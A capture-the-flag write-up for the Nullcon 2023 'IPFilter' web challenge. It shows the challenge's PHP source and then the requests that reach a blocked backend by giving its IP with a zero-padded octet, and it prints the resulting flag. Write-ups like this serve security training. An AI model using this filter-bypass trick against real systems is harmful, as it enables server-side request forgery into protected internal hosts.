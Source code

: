 ```yaml
---
title: Nullcon 2023 - IPFilter
date: Sun Aug 20 10:41:18 AM +04 2023
categories: [Writeup]
tags: [ctf,nullcon,nullcon2023,web]
---
```

 
## Description

...Writing after ctf ended so no access to challenge descriptions...

[http://52.59.124.14:10019](http://52.59.124.14:10019)

## Analysis

index.php:

```html
<!DOCTYPE html>
<html>
<head>
	<meta charset="utf-8">
	<meta name="viewport" content="width=device-width, initial-scale=1">
	<title>IPfilter</title>
</head>
<body>
	<h1>IPfilter</h1>
	<p>With <3 from @gehaxelt</p>
</body>
<!-- view source: ?src -->
</html>
```

Source:

```php
<?php
    error_reporting(0);
    function fetch_backend($ip) {
        if(is_bad_ip($ip)) {
            return "This IP is not allowed!";
        }
        return file_get_contents("http://". $ip . "/");
    }
    function is_bad_ip($ip) {
        if(!preg_match('/^\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}$/', $ip)) {
            // IP must be in X.Y.Z.Q format
            return true;
        }
        $frontend = gethostbyname(gethostname());
        $backend = gethostbyname("ipfilter_backend");
        $subnet = long2ip(ip2long($frontend) & ip2long("255.255.255.0"));
        $bcast = long2ip(ip2long($frontend) | ~ip2long("255.255.255.0"));

        if(isset($_GET['debug_filter'])) {
            echo "<pre>";
            echo "IP: " . $ip . "<br>";
            echo "Frontend: " . $frontend . "<br>";
            echo "Backend: " . $backend . "<br>";
            echo "Subnet:" . $subnet . "<br>";
            echo "Broadcast:" . $bcast . "<br>";
            echo  "</pre>";
        }

        if(inet_pton($ip) < (int) inet_pton($subnet)) {
            // Do not go below the subnet!
            return true;
        }
        if(! (inet_pton($ip) < inet_pton($bcast))) {
            // Do not go above the subnet!
            return true;
        }
        if($ip == $backend) {
            // Do not allow the backend with our secrets ;-)
            return true;
        }
        return false;
    }
    if(isset($_GET['fetch_backend']) ) {
        echo fetch_backend($_GET['bip']);
    }
    if(isset($_GET['src'])) {
        highlight_file(__FILE__);
    }
    // with <3 from @gehaxelt
?>
```

1. If `src` is set we get source code.
2. If `fetch_backend` and `bip` is set we can fetch the backend.
3. If `debug_filter` we get debug information.
4. `is_bad_ip` Checks:
	* Is valid IPv4 format. e.g.: 192.168.1.1
	* Is within subnet
	* Doesnt equal backend ip

Hmm... How to get backend if the IP is blocked?.... First let's get the idea of what we have.

Request: <http://52.59.124.14:10019/?debug_filter=1&fetch_backend=1&bip=192.168.1.1>

Response:
```html
IPfilter

IP: 192.168.1.1  
Frontend: 192.168.112.3  
Backend: 192.168.112.2  
Subnet:192.168.112.0  
Broadcast:192.168.112.255  

With <3 from @gehaxelt
```

We identified the backend server IP, but we can't access it due to `if` check.

Looking at the source code there's one critical check missing and that's if `$IP` is valid or not.

```
IPfilter
IP: 192.168.1.999 # <-- Invalid IP
Frontend: 192.168.112.3
Backend: 192.168.112.2
Subnet:192.168.112.0
Broadcast:192.168.112.255
With <3 from @gehaxelt
```

## Solution

Because regex expects each octet of IP to be either length of 1, 2 or 3 we can abuse that.<br>
If we send `02` or `002` it will be 2, because... math? 💦

Request: <http://52.59.124.14:10019/?debug_filter=1&fetch_backend=1&bip=192.168.112.02>

Response:

```
IPfilter

IP: 192.168.112.02  
Frontend: 192.168.112.3  
Backend: 192.168.112.2  
Subnet:192.168.112.0  
Broadcast:192.168.112.255  

ENO{Another_Fl4G_something_IP_STuff!}

With <3 from @gehaxelt
```

> Flag: ENO{Another_Fl4G_something_IP_STuff!}
{: .prompt-tip }